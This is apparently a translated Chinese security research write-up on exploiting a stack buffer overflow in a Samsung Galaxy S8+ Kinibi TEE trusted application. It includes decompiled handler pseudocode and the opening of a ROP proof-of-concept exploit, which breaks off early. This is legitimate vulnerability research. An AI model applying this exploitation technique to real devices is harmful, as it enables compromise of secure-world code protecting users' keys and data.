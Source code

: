 即使TEE系统专门用于安全操作，操作系统也没有ASLR/PIE那样的安全强化，这使得利用可信应用中的漏洞变得非常容易。

三星在`G955FXXU2CRED`和`G955FXXU3CRGH`(Galaxy S8+)中修补了SEM TA(`fffffffff0000000000000000000001b.tlbin`)。

修补程序修复了0x1B命令处理程序中可直接访问的基于堆栈的缓冲区溢出。此外，在这个TA的新版本中启用了堆栈cookie。

```
/* pseudo code in G955FXXU2CRED */
void __fastcall handle_cmd_id_0x1b(unsigned int *tciBuffer)
`{`
  // [...]
  char v64[256]; // [sp+158h] [bp-770h]
  char v65[256]; // [sp+258h] [bp-670h]
  char v66[200]; // [sp+358h] [bp-570h]
  char v67[1024]; // [sp+420h] [bp-4A8h]
  char v68[64]; // [sp+820h] [bp-A8h]
  char v69[52]; // [sp+860h] [bp-68h]
  int v70; // [sp+894h] [bp-34h]

  bzero(v66, 0xC8u);
  bzero(v64, 0x100u);
  bzero(v65, 0x100u);
  bzero(v68, 0x40u);
  v4 = tciBuffer[2];
  v5 = tciBuffer[3];
  // memcpy with source and length controlled
  memcpy(v66, tciBuffer + 4, tciBuffer[3]);
  v6 = v5 + 12;
  v7 = *(int *)((char *)tciBuffer + v5 + 16);
  if ( tciBuffer[23042] &gt; (unsigned int)(v7 + 208) )
  `{`
    snprintf(v67, 0x400, "~%18s:%4d: Input data is over the buffer.", v8, 113);
    print("[E]SEM %sn", v67);
    return;
  `}`
  // [...]
```

如果没有堆栈cookie，就可以在命令处理程序中直接访问基于堆栈的缓冲区溢出，这应该会使你想起你的第一次开发利用。

可信应用具有read-exec代码页和read-write数据页映射。Kinibi没有类似mprotect的syscall，也不提供syscall和可信应用之间的映射，因此在TA中执行任意代码的唯一方法是对其代码进行ROP。

为了与TEE进行通信，使用了libMcClient.so库。该库提供了加载TA、打开会话、映射内存和通知可信应用的功能。Trustonic给出了使用这个库的头文件：MobiCoreDriverApi.h。在Android上，只有一些特权应用程序和具有特定SElinux上下文的应用程序可以使用TEE驱动程序。

以下是一个简单的漏洞，即ROP打印受控的日志字符串，在三星设备上TEE日志在KMSG中打印。

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/stat.h&gt;

#include "MobiCoreDriverApi.h"

#define err(f_, ...) `{`printf("[33[31;1m!33[0m] "); printf(f_, ##__VA_ARGS__);`}`
#define ok(f_, ...) `{`printf("[33[32;1m+33[0m] "); printf(f_, ##__VA_ARGS__);`}`
#define info(f_, ...) `{`printf("[33[34;1m-33[0m] "); printf(f_, ##__VA_ARGS__);`}`
#define warn(f_, ...) `{`printf("[33[33;1mw33[0m] "); printf(f_, ##__VA_ARGS__);`}`

int main(int argc, char **argv) `{`
    mcResult_t ret;
    mcSessionHandle_t session = `{`0`}`;
    mcBulkMap_t map;
    uint32_t stack_size;
    char *to_map;

```